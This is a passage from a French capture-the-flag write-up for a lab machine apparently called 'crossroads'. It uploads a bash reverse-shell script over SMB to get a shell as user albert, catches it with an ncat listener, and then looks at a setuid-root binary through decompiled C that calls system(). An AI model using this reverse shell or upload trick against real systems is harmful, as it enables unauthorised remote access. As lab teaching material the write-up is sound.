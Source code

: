 Maintenant passons à ce `magic script`. J'ai créé le script suivant :

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/9999 0>&1
```

Et dès que l'on lance l'upload du fichier :

```shellsession
$ smbclient -U albert //192.168.56.111/smbshare
Password for [WORKGROUP\albert]:
Try "help" to get a list of possible commands.
smb: \> put smbscript.sh
```

Le script est exécuté et me donne un reverse shell :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.111.
Ncat: Connection from 192.168.56.111:53100.
bash: cannot set terminal process group (483): Inappropriate ioctl for device
bash: no job control in this shell
albert@crossroads:/home/albert/smbshare$ id
id
uid=1000(albert) gid=1000(albert) groups=1000(albert)
```

## Just debug it

Le binaire `beroot` vu plus tôt est setuid root :

```
-rwsr-xr-x 1 root   root    17K Mar  2  2021 beroot
```

Il est très basique comme le montre le code C décompilé par `Cutter` :

```c
/* jsdec pseudo code output */
/* /tmp/beroot @ 0x1145 */
#include <stdint.h>

int32_t main (void) {
    edi = 0;
    eax = 0;
    setuid ();
    rdi = "/bin/bash /root/beroot.sh";
    eax = 0;
    system ();
    eax = 0;
    return eax;
}
```
